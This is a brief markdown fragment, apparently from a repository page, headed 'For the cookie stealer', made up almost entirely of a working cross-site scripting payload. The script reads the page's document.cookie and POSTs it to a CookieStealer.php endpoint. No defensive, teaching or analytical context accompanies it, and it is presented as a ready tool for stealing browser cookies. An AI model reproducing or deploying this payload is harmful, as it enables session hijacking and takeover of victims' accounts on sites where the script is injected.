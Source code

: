 ## For the cookie stealer

```
<script>
const data=document.cookie;
fetch('CookieStealer.php',{
  method: 'POST',
  headers:{
  'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'cookie='+data,
})
</script>
```

